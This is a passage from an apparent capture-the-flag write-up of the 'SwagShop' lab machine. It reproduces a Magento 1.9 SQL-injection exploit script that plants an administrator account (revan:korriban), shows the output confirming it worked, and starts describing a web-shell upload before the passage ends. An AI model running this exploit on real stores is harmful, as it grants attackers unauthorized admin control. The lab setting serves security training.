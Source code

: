 ```py
  18   │ SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
  19   │ INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`pass
       │ word`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,
       │ `rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com',
       │ '{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
  20   │ INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_i
       │ d,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE usern
       │ ame = '{username}'),'Firstname');
  21   │ """
  22   │ 
  23   │ 
  24   │ query = q.replace("\n", "").format(username="revan", password="korriban")
  25   │ pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
  26   │ 
  27   │ # e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
  28   │ r = requests.post(target_url,
  29   │                   data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
  30   │                         "filter": base64.b64encode(pfilter.encode("utf-8")),
  31   │                         "forwarded": 1})
  32   │ if r.ok:
  33   │     print("WORKED")
  34   │     print("Check {0}/admin with creds revan:korriban".format(target))
  35   │ else:
  36   │     print("DID NOT WORK")
───────┴───────────────────────────────────────────────────────────────────────────
```
If we execute it, it will create a new user with admin role through SQLi:
```bash
❯ python3 Exploits/37977.py
WORKED
Check http://swagshop.htb/index.php/admin with creds revan:korriban
```
As it returned `WORKED`, we can try to login with creds `revan:korriban` and we succeed.

## Web shell
Now that we are logged in as an administrator account, we can enumerate the version of Magento: `1.9.0.0`.
As administrators, we are able to create and edit categories. Doing so, we can upload images to the server, leading to possible LFI: